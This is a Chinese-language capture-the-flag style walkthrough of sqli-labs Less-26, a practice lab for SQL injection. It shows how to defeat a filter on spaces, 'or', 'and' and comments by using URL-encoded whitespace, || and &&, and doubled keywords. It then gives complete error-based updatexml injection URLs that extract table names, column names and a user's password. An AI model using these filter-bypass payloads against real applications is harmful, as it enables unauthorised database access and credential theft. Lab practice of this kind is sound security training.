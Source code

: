```yaml
---
title: Less -26
date: 2023-03-16T12:28:18Z
lastmod: 2023-03-16T12:48:20Z
---
```


# Less - 26

---

# 通关教程

---

## 1、判断闭合

---

直接查看该关卡的源码，如下

![image](assets/image-20230316123057-npdmqt1.png)​

空格，or，and以及注释--和#都被过滤了，这里我们要进行替换

替换：如and可替换为&&，or可替换为||  
空格的话我们可以 url 绕过：%a0 || %0b 等等，过滤字符我们可以用 and || or 替代  
mysql空白符：%09; %0A; %0B; %0D; %20;

先输入

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1'
```

![image](assets/image-20230316123601-8cdmj8o.png)​

根据错误显示判断闭合方式为’;%00，并且为字符型注入。这里因为空格过滤了，我们使用%a0代替空格

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=-1' || updatexml(1,concat(0x7e,database()),1) || '1'='1
```

![image](assets/image-20230316124341-whkgx4u.png)​

---

## 3、查看数据表名

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1' || updatexml(1, concat(0x7e, (SELECT (group_concat(table_name)) FROM (infoorrmation_schema.tables) WHERE (table_schema='security'))) ,1) || '1'='1
```

![image](assets/image-20230316124428-ctm2zyu.png)​

---

## 4、查看字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1'||updatexml(1,concat(1,(SELECT (group_concat(column_name)) FROM (infoorrmation_schema.columns) WHERE (table_schema='security' %26%26 table_name = 'users'))) ,1) || '1'='1
```

![image](assets/image-20230316124702-akrsc7i.png)​

---

## 5、查看字段值

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=-1' || updatexml(1,concat(0x0a,(SELECT(group_concat(concat_ws(0x3a,username,passwoorrd))) FROM (security.users) WHERE (id = 1) ))  ,1) || '1'='1
```

![image](assets/image-20230316124809-vmht2qp.png)​

‍
